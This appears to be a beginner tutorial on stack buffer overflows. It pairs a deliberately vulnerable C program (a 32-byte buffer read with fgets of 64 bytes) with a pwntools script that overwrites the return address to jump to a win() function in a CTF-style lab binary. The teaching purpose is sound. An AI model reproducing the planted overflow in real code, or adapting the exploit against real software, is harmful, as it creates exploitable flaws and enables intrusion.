

# 🧠 The Plan

## 🧩 The Basics

Most memory and low-level exploits stem from **bad memory management**. This is an inherent flaw in languages like **C/C++**, which:

- Allow direct memory access
- Don't enforce memory safety
- Lack features like garbage collection or scoped memory management

---

## 📌 Example C Code

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    printf("win() called!\nHere's your flag: flag{dummy_flag}\n");
}

int main(void) {
    char name[32];   // Buffer of 32 bytes

    fgets(name, 64, stdin); // Reading 64 bytes into a 32-byte buffer
}
```

### ❓ What’s the issue?

What happens when you **overfill** a water bucket?

> It ***overflows***! 💥

That’s exactly what happens here — we overflow the `name` buffer.

---

## 💣 What is a Buffer Overflow?



We're simply **filling the buffer** until we reach critical data — like the **return address** (shown above in red).

If we can control the value **written** to the return address...

> We can control **where the program jumps to next**.

Think of it like hijacking a plane:

- It’s headed to a predefined destination (the original return address).
- But you take over, and reroute it somewhere else — like `win()`!

---

## 🧪 In Practice

Before launching an attack, we **reverse engineer** the binary to find vulnerabilities.

Here’s a sample exploit script using `pwntools`:

```python
from pwn import *

elf = context.binary = ELF('./exploitme')

p = elf.process()
offset = 40

payload = b''
payload += b'A' * offset
payload += pack(0x401136)  # Address of win()

print('\n-=-=-=-=-=-=-=-=-=-=-=-')
print(hexdump(payload))
print('-=-=-=-=-=-=-=-=-=-=-=-\n')
info(f'Payload length: {len(payload)}')

info('Sending exploit...\n\n')

p.sendline(payload)
print(p.recv().decode())
```

---